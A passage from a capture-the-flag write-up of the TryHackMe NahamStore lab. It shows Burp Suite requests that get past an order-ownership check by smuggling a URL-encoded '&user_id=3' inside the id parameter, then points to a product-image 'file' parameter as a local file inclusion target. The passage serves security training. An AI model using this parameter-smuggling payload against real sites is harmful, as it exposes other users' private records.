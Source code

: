 **Burp Suite:**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=4
```

Again, **what if I replaced the `id` into `3`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a32.png)

Error? `Order does not belong to this user_id`

Hmm... **What if I add another POST parameter called `user_id`?**

**Burp Suite:**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=3&user_id=3
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a32.png)

Still didn't work...

**How about we URL encode the `&`? This will let the `3&user_id=3` becomes the value of `id`.**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=3%26user_id=3
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a33.png)

It worked!

# Task 6 - LFI

```
Somewhere in the application is an endpoint which allows you to read local files. We've placed a document at /lfi/flag.txt for you to find the contents.
```

1. LFI Flag

**When we go to the `product` page, it's GETing the product image in `/product/picture/?file=`**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a34.png)

**The `file` GET parameter might vulnerable to LFI, or Local File Inclusion.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a35.png)
